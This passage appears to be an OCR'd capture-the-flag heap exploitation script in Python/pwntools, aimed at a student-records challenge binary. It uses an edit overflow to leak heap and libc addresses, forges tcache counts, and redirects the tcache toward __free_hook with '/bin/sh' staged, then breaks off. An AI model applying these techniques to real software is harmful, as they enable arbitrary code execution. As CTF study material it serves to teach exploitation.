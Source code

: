 ```python
  p.sendafter('name\n>>', name)		# max size 0x14 (20)
  p.sendlineafter('marks\n>>', str(marks))	# int between 40 to 100 (dword)
  p.sendafter('Students\n>>', remarks)		# max size 0x38 (56)
  p.sendafter('paper\n>>', log)			# malloc bloc allocated size

def adda(size, data):
  add(size, 'A'*0x14, 40, 'B'*0x38, data)

def free(idx):
  p.sendlineafter('>>','2')
  p.sendlineafter('record\n>>', str(idx))

def show(idx):
  p.sendlineafter('>>','3')
  p.sendlineafter('view\n>>', str(idx))

def edit(idx, name, marks, remarks, log):
  p.sendlineafter('>>','4')
  p.sendlineafter('edit\n>>', str(idx))
  p.sendlineafter('name\n>>', name)
  p.sendlineafter('marks\n>>', str(marks))      # int between 40 to 100 (dword)
  p.sendafter('Students\n>>', remarks)          # max size 0x38 (56)
  p.sendafter('paper\n>>', log)                 # malloc bloc allocated size

adda(0x18, 'A')		# bloc 0   --> no use we just free it to get a heap address
adda(0x18, 'B')		# bloc 1   --> we will use this one, to write on the heap, via the edit function vulnerability
adda(0x88, 'C')		# bloc 2   --> this one will be freed to go in unsorted, and get a libc leak
adda(0x38, 'D')		# bloc 3  --> stop bloc
free(0)			# we free the first bloc, to put a heap address on heap for our leak

# modify heap address of bloc1 to point on freed bloc 0 bk pointer
edit(1, 'A'*0x14, 40, 'a'*56+'\xa8', '\x10')
show(1)
p.recvuntil('contents\n', drop=True)
leak1 = u64(p.recv(8))
print('leak heap = '+hex(leak1))
heap_base = leak1-0x10

# set 0x90 tcache->counts to 7 (full tcache)
edit(1, 'A'*0x14, 40, b'a'*56+p16((leak1+14) & 0xffff), '\x07')

# as there is now 7 (non existing) blocs in tcache 0x90 list, freeing a 0x88 bloc , will go in unsorted
free(2)

# edit bloc 1 heap address, to make it point to bk/fd libc pointers leaved by freeing 0x88 bloc
edit(1, 'A'*0x14, 40, b'a'*56+p16((leak1+0x2d0) & 0xffff), '\xe0')

show(1)
# get our libc leak & calculate libc base
p.recvuntil('contents\n', drop=True)
leak2 = u64(p.recv(8))
print('leak libc = '+hex(leak2))
libc.address = leak2 - 0x1ebbe0
print('libc base = '+hex(libc.address))

# now modify head pointer of 0x20 blocs in tcache to points to __free_hook-16 (__free_hook-8 could works also but not in later libc, because of alignement)
edit(1, '/bin/sh'.ljust(0x14,'\x00'), 40, b'a'*56+p16((leak1+0x80) & 0xffff), p64(libc.symbols['__free_hook']-16) )

```